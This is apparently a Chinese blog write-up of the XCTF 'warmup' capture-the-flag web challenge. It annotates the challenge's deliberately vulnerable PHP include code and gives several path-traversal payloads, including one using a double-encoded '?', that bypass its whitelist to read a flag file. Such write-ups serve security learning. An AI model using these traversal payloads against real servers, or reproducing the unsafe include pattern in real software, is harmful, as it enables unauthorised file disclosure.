



[题目地址](https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5442&page=1)

题目名称：warmup

题目描述：暂无

题目附件：暂无

<!-- more -->

**题外话：**

这两天做RSA题没做出来，看WriteUp发现RSA的原理自己还不太懂，题解也不太懂，好菜啊难受，，还是需要很多数学公式的，头都大了，先放一放吧，先做一道web放松一下。

WriteUp:

创建场景访问后的页面如下：


啥也没有，只有一个大表情，查看源码，提示\<!--source.php-->



source.php源码页面分析如下：

```php
<?php
    highlight_file(__FILE__);#函数对文件进行语法高亮显示。
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {#必须传参$page,且参数是字符串，否则返回false
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {#如果参数在白名单里面 返回true
			
                return true;
            }

            $_page = mb_substr(#截取参数第一个？之前的字符串返回，
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);#对参数进行url解码
            $_page = mb_substr(#解码后截取第一个？之前的字符串返回
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {#如果在白名单里返回True
                return true;
            }
            echo "you can't see it";#返回false
            return false;
        }
    }
	#php类并不会执行（除非调用），从这开始执行
    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
	#判断为真的条件，file参数非空；file参数是字符串；checkFile返回结果为True
	#返回file参数的文件源码
        include $_REQUEST['file'];#把包含的文件读取进来
        exit;
    } else {
        echo "<br>";
    }  
?>
```

可以看到还有一个hint.php，查看内容如下：



根据猜测flag在得到了一个ffffllllaaaagggg文件中，source.php源码中有include语句。所以要把ffffllllaaaagggg文件的路径传入file参数中。

在本地使用wamp集成服务器组件搭建了一个php环境，一通测试分析之后如下：

+ 在地址栏需要file传参

+ file参数值经过checkFile函数返回值要为true
+ file参数值还要是ffffllllaaaagggg文件的路径

根据checkfile函数构造payload为：

`?file=source.php%253f/../../../../ffffllllaaaagggg`

因为%253f是'?'字符两次url编码后的值

因为url有一次自动url解码，第一次mb_substr时无变化，然后通过urldecode函数变成了?file=source.php?/../../../../ffffllllaaaagggg,然后截取?之前的参数正好是source.php结果返回true，而正好构造的payload是ffffllllaaaagggg的路径，../的个数是逐次添加尝试得到的结果，如下：



**原理：**

include语句会包含url自动解码后的source.php%3f/../../../../ffffllllaaaagggg，而会从php根目录source.php%3f文件开始一个../是一个上级目录，最后访问到ffffllllaaaagggg文件

**另外：**

下面这两个payload也可以访问，不知道为什么？

`?file=source.php?../../../../../ffffllllaaaagggg`

`?file=source.php?/../../../../ffffllllaaaagggg`

我再本地测试”source.php?/../“这样写的的话是不能访问上级目录的，好像不会把source.php?当成一个文件名，?会当成传参符号，也不知道为什么可以访问到，也不纠结了😬


